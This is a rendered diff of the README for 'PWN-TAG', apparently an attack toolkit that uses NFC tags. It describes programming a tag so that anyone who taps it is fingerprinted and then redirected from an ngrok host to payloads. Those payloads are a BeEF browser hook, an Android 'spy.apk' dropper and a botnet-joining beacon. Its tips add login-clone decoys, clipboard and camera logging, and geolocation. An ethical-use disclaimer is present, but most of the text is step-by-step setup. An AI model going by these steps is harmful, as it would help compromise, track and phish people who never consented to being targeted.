

Before and after one commit to ekomsSavior/PWN-TAG, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -93,98 +97,82 @@ Copy the `https://...ngrok.app` URL — this becomes your **NFC tag link**.
 
----
-
-### Terminal 3 — Edit Payload Redirector
-
-```bash
-nano payloads/test_shell.html
 ```
-
-Update this line with your current ngrok URL:
-
-```javascript
-window.location.href = "https://your-ngrok-subdomain.ngrok.app/payloads/bot_joiner.html";
+https://pwn-tag.ngrok.app
 ```
 
 ---
 
-### Terminal 4 — Start Listener
+##  Write Your NFC Tag
 
-```bash
-python3 listener.py
-```
-
-Logs any device fingerprinting or interaction data sent by payloads.
-
----
-
-## Write Your NFC Tag
-
-Using your NFC writer app:
+In your NFC writer app:
 
 1. Tap **Write**
 2. Add Record → **URL**
-3. Paste something like:
+3. Paste:
 
 ```
 https://pwn-tag.ngrok.app/payloads/test_shell.html
 ```
 
-4. Tap “Write” to encode it
+4. Tap to write
 
- Now when someone taps the tag, it opens the redirector → logs the device → delivers your payload.
+Now when someone taps the tag:
+
+* `test_shell.html` loads
+* Device fingerprint is POSTed to your listener
+* Redirect triggers to any final payload
 
 ---
 
-##  Payload Options (Examples & Use Cases)
+##  Payload Options (Examples)
 
-| Payload               | Path                       | Description                                                         |
-| --------------------- | -------------------------- | ------------------------------------------------------------------- |
-| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint (user agent, screen size, timezone) then redirects |
-| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads a BEEF hook for browser control (if server is running)        |
-| **APK Dropper**       | `payloads/spy.apk`         | Sends Android users a direct APK (custom implants welcome)          |
-| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue Botnet join — connect, beacon, execute JS           |
+| Payload               | Path                       | Description                                                |
+| --------------------- | -------------------------- | ---------------------------------------------------------- |
+| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint, then redirects to real payload           |
+| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads BEEF hook (must run BEEF server separately)          |
+| **APK Dropper**       | `payloads/spy.apk`         | Sends APK file directly to Android users                   |
+| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue botnet join behavior — JS beacon or loader |
 
 ---
 
-##  Swapping Payloads (Beginner-Friendly)
+##  Swapping Payloads
 
-1. Open `payloads/test_shell.html`
-2. Change this line:
+Edit this in `payloads/test_shell.html`:
 
 ```javascript
-window.location.href = "https://your-ngrok.ngrok.app/payloads/YOUR_FILE_HERE";
+window.location.href = "https://pwn-tag.ngrok.app/payloads/YOUR_PAYLOAD_HERE";
 ```
 
-3. Example:
+Example:
 
 ```javascript
 window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
 ```
 
- No need to rewrite the NFC tag if you're using a static domain — just update the file.
+ You do **not** need to reprogram your NFC tag if you’re using a static domain.
 
 ---
 
 ##  Pro Tips
 
-*  Make multiple redirectors (`redirect_to_apk.html`, etc.)
-*  Make `index.html` a 403 decoy or fake blog
-*  Want geolocation? Use `https://ipinfo.io/json` in your JS
-*  Want deep traps? Chain to `clipboard.js`, `camlog`, etc. before redirect
-*  With static domains (`ngrok-pro`), your NFC tags are reusable forever
+*  Make multiple redirectors: `redirect_to_apk.html`, `redirect_to_bot.html`, etc.
+*  Replace `index.html` with a 403 decoy, fake update screen, or login clone
+*  Add geolocation or IP info: use `fetch('https://ipinfo.io/json')`
+*  Chain with `clipboard.js`, `camlog`, or `result.js` for layered payloads
+*  With static ngrok domains, your tags stay valid forever — just update server logic
 
 ---
 
-##  Ethical Usage
+## 🛡 Ethical Usage
 
-This tool is intended for **educational purposes, red-team ops, and ethical testing only**.
-You are responsible for your actions. Do not use this on devices or individuals without consent.
+This tool is intended for **educational use, red team simulation, and defense research only.**
+Do not deploy it against real targets without consent. You are responsible for your actions.
 
 ---
 
+##  Extras Coming Soon
 
-- ✅ `setup_repo.sh` for auto-deployment
-- ✅ A `payloads/README.md` to explain each file
-- ✅ BEEF hook setup instructions
-- ✅ QR code payload variants for phones with no NFC
+*  `setup_repo.sh` for auto-deployment
+*  `payloads/README.md` to explain demo files
+*  BEEF hook setup help
+*  QR payload variants for phones without NFC
 
````
Also changed, not shown: other parts of README.md (+42 -35 lines).
